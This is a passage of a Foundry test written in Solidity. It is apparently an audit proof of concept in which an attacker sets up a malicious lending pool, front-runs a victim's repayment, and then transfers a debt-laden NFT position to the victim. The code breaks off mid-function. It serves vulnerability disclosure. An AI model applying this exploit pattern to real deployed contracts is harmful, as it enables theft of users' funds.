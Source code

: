 ```solidity
        configurationLocal[1] = config;

        address[] memory admins = new address[](1);
        admins[0] = attacker;

        DataTypes.InitPoolParams memory p = DataTypes.InitPoolParams({
            proxyAdmin: address(this),
            revokeProxy: false,
            admins: admins,
            emergencyAdmins: new address[](0),
            riskAdmins: new address[](0),
            hook: address(0),
            assets: assets,
            rateStrategyAddresses: rateStrategyAddresses,
            sources: sources,
            configurations: configurationLocal
        });

        poolFactory.createPool(p);
        attackerPool = IPool(address(poolFactory.pools(1)));
    }

    function testPoC() public {
        DataTypes.ExtraData memory dummyData = DataTypes.ExtraData(bytes(''), bytes(''));

        _mintAndApprove(attacker, tokenA, 1 ether, address(attackerPool));
        console.log("Attacker tokenA balance before: %e", tokenA.balanceOf(attacker));

        _mintAndApprove(alice, tokenA, 1 ether, address(nftPositionManager));

        // Alice created a NFT with id = 1 to interact with `pool` (this pool is unmalicious)
        {
            vm.prank(alice);
            nftPositionManager.mint(address(pool));

            // Alice borrowed 1e18 tokenA using the NFT with id = 1
            // For the sake of simplicity, the borrowing code is not implemented
        }

        // The attacker front-ran Alice's repay transaction
        {
            vm.startPrank(attacker);
            attackerPool.supplySimple(address(tokenA), attacker, 1 ether, 0);

            // The attacker created a NFT position with id = 2
            nftPositionManager.mint(address(attackerPool));

            // The attacker supplied `attackerToken` to back the borrowing
            attackerToken.approve(address(nftPositionManager), type(uint256).max);
            INFTPositionManager.AssetOperationParams memory paramsSupply =
            INFTPositionManager.AssetOperationParams(address(attackerToken), address(0), 100 ether, 0, dummyData);
            nftPositionManager.supply(paramsSupply);

            // The attacker borrow tokenA from `attackerPool`
            INFTPositionManager.AssetOperationParams memory paramsBorrow =
            INFTPositionManager.AssetOperationParams(address(tokenA), attacker, 1 ether, 0, dummyData);
            nftPositionManager.borrow(paramsBorrow);

            // The attacker tranfer the NFT with id = 2 to Alice
            nftPositionManager.transferFrom(attacker, alice, 2);
            vm.stopPrank();
```